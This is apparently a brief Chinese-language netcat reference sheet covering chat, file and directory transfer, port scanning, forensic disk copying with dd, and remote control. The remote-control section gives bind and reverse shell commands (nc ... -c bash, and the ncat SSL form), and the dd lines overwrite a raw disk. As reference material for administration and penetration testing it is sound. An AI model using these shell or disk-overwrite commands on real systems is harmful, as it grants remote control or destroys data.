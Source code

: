 ### 聊天/信息传递
Server: 
>nc -l -p 4444 
Client: 
>nc -nv IP 4444 
### 电子取证
Server： 
>nc-l -p 4444 > remote.txt 
Client： -q 表示完成后多少秒后退出 
>ls-l | nc -nv IP 4444 -q 1   

### 文件传输
Server: 接收文件 
>nc -lp 4444 > 1.mp3
Client: 发送文件 
>nc -nv IP 4444 < 1.mp3 -q 1 
### 目录传输
Server: 接收文件 
>tar -cvf - music/ | nc -lp 4444 -q 1
Client: 发送文件 
>nc -nv IP 4444 | tar -xvf - 

### 端口扫描（作为辅助参考，不一定准确，结合其他工具，例如nmap）
TCP 端口：
>nc -nvz IP 1-65535  
UDP 端口： 
>nc -nvzu IP 1-65535 

### 远程硬盘拷贝（用于电子取证，删除文件还原）
远程接收
>nc -lp 4444 | dd of=/dev/sda1
被拷贝 
>dd if=/dev/sda | nc -lp 4444 -q 1 

### 远程控制
正向： 
>nc -lp 4444 -c bash 
>nc IP 4444
反向： 
>nc -lp 4444
>nc IP 4444 -c bash 
如果是Windows，将bash换成cmd 

### NC缺乏加密和身份验证功能， 用ncat 来替换
>ncat -c bash --allow ClientIP -nvl 4444 --ssl
>ncat -nv ServerIP 4444 --ssl



